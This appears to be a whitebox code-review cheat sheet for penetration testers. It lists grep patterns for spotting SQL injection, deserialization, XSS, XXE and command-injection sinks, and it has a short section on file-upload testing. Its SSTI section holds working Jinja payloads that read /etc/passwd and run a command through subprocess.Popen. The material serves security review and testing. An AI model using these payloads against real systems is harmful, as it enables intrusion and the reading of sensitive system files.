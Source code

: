 # Whitebox / Code Review Methodologies & Tips


## Quick Greps
* Quick grep commands that may find direct vulnerabilities or used for recon purposes that gives you the lay of the land and tells you about the web application you're dealing with
* These grep commands may not directly give you indication of for example *Deserialization* attack vectors but may give a hint
* Tips
  * Narrow down to individual folders if searching from root directory takes too long
  * Zoom out on your terminal first before grepping
```bash
# Eval (For nodeJS or Java)
grep -Ri "eval(" * --color

#SQLI
egrep -ri "^.*?['\"]SELECT.*?['\"]\ ?[\+\.]" *
egrep -Ri "^.*?['\"]UPDATE.*?SET.*?['\"]\ ?[\+\.]" *
egrep -Ri "^.*?['\"]INSERT INTO.*?['\"]\ ?[\+\.]" *
grep -Ri "queryForList("


# Deserialization
## Java
egrep -Ri "readObject\(\)" *

# XSS 
grep -r "document.write(" ./ --include "*.html"
grep -Ri "<script src=\"' +"


# XXE Injection or at least XML
grep -Ri "= new HashMap" *
grep -Ri "= document.getElementsByTagName("
grep -Ri "document.getDocumentElement()"
grep -Ri "getNodeValue()"
grep -Ri "getNodeValue()"
grep -Ri "NodeList"
grep -Ri "java.util.HashMap"
grep -Ri "<\!\[CDATA\[" *
## Java
egrep -ri "XmlUtil.java" *

# SSTI
grep -Ri ".render(" *

# File System interactions
## Java
grep -Ri "new FileReader(" *



# Weak Random
## Java
grep -Ri "import java.util.Random" *
grep -Ri "new Random(" *



# Websockets
grep -Ri "= new WebSocket(" *
grep -Ri "WebSocket(" *
grep -r "send(" ./ --exclude="compressed*" --exclude="*.js"


# API
grep -Ri "swagger"
grep -Ri "/api" *

# Command Injection
## Linux
grep -Ri "\"su" --exclude "*.js" --exclude "*.html" --exclude "*.css" --exclude "*.svg" --exclude "*.scss"
## Windows
"cmd.exe (.*) /c 
"cmd (.*) /c "
"powershell (.*) -c "
"powershell (.*) -command "
"powershell.exe (.*) -c "
"powershell.exe (.*) -command "

# Deserialization
grep -Ri ".GetType(" *
grep -Ri ".GetType().AssemblyQualifiedName" *
grep -Ri "XmlSerializer(" *
grep -Ri "Serializer" *
grep -Ri ".Serialize(" *
grep -Ri ".Deserialize(" *
grep -Ri "= new XmlDocument()" *
grep -Ri "XmlDocument()" *
grep -Ri "DeSerializeHashtable" *
grep -Ri "XmlUtils.DeSerializeHashtable" *
```

## SSTI
* Detailed SSTI meaning [here](./SSTI.html)
* Test
    ```python
    {{7*7}}
    ```
* Jinja Payload
    * Python2
        ```python
        {{ ''.__class__.__mro__[2].__subclasses()[40]('/etc/passwd').read() }}
        ```
    * Python3
        ```python
        {{ ''.__class__.__mro__[1].__subclasses()[40]('/etc/passwd').read() }}
        ```
    * the number `[420]` may change every instance. This is the subprocess.Popen for RCE
        ```python
        {% set string = "ssti" %}
        {% set class = "__class__" %}
        {% set mro = "__mro__" %}
        {% set subclasses = "__subclasses__" %}
        {% set mro_r = string|attr(class)|attr(mro) %}
        {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
        {{ subclasses_r[420](["/usr/bin/touch","/tmp/poc.txt"]) }}
        ```
## File Upload
* Whitebox
    * Try to upload a file and see where it is uploaded on the file system by using `find` or `grep`
    * Find writable directories
        ```bash
        find /var/www/html/ -type d -perm -o+w
        ```
* File upload via Zip?
    * Try directory traversal to `/tmp`
    * find writable directories on the web root
    * PHP
        * make use of `display_errors` in the PHP settings

## How to track a possible vulnerable function resides?
* can start from top to bottom. From controllers, `grep` for the <something>.phtml or <something>.html. It might give some idea on where it is

## Debugging
* Python SMTP Server[^1]





[^1]: [Python3 SMTPD package](../Infrastructure_Setup/Simple_Python_Go_Packages.html#python3-smtpd)
